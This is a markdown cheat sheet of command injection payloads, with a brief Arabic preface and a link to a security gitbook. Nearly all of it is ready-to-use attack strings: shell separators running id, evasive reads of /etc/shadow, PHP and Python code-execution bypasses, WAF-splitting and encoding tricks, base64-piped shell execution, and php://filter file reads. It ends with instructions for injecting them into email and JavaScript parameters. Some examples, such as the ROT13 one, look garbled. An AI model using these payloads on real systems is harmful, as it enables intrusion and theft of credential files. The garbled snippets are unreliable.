 إليك تنظيم النقاط بشكل نصي عادي ومنظم:

---

### **Command Injection Techniques**

#### **1. Testing in Links**
- **Email Command Injection**:
  ```bash
  $command@mailbox.com
  `$command`@mailbox.com
  `command`@mailbox.com
  ```

#### **2. Parameter Found in JavaScript**
- **Command Injection Payloads**:
  ```bash
  a);id
  a;id
  a);id;
  a;id;
  a);id|
  a;id|
  a)|id
  a|id
  a)|id;
  a|id
  |/bin/ls -al
  a);/usr/bin/id
  a;/usr/bin/id
  cat /etc/shadow
  cat "/e"tc'/shadow'
   cat /etc/sh*dow
  cat /etc/sha``dow
  cat /etc/sha$()dow
  cat /etc/sha${}dow
  ```
# Security Bypasses for Code Execution

## PHP-Based Bypasses
- Concatenate function names: `('sys'.'tem')('cat /etc/shadow');`
- Insert comments: `system/**/('ls');`
- Use hex encoding: `'\x73\x79\x73\x74\x65\x6d'('ls');`

## Python-Based Bypasses
- Basic import bypass: `__import__('os').system('cat /etc/shadow')`
- String concatenation: `__import__('o'+'s').system('cat /etc/shadow')`
- Hex encoding: `__import__('\x6f\x73').system('cat /etc/shadow')`

## Splitting Payloads to Evade WAF
- Send parameters separately:

- The server concatenates values into: `__import__('os').system('ls')`

## Other Bypasses
- Hex encoding combined with URL encoding, followed by double URL encoding.
- Case variations (uppercase/lowercase) to bypass case-sensitive filters.
- Use of null bytes, newline characters, and escape characters.
- Testing blocked payloads to determine possible workaround methods.

## Additional Techniques
- **Encoding Tricks**  
- Base64 encoding: `echo "bHM=" | base64 -d | sh`
- ROT13: `echo "y66" | tr 'A-Za-z' 'N-ZA-Mn-za-m' | sh`

- **Command Injection via Environment Variables**  
- `$(env|grep -i shell|awk -F= '{print $2}'|sh -c 'ls')`
- `$(command -v bash) -c 'ls'`

- **Indirect Execution**  
- Using `eval`: `eval("system('ls')");`
- PHP assert abuse: `assert('system("ls")');`

- **PHP Filters**  
- `php://filter/convert.base64-encode/resource=/etc/passwd`
- `php://input` to execute inline PHP code.

Always test in a controlled environment and ensure ethical hacking practices.

#### **3. JavaScript Command Injection**
- **System Command Execution**:
  ```bash
  ` ${
  @print
  (system('whoami'))} `
  ```

---

### **How to Use This Information**
1. **Email Command Injection**:
   - Test for command injection vulnerabilities in email fields by injecting commands.

2. **JavaScript Parameter Injection**:
   - Use the provided payloads to test for command injection vulnerabilities in JavaScript parameters.

3. **System Command Execution**:
   - Inject system commands in JavaScript contexts to execute arbitrary commands.

---
- https://sallam.gitbook.io/sec-88/web-appsec/command-injection

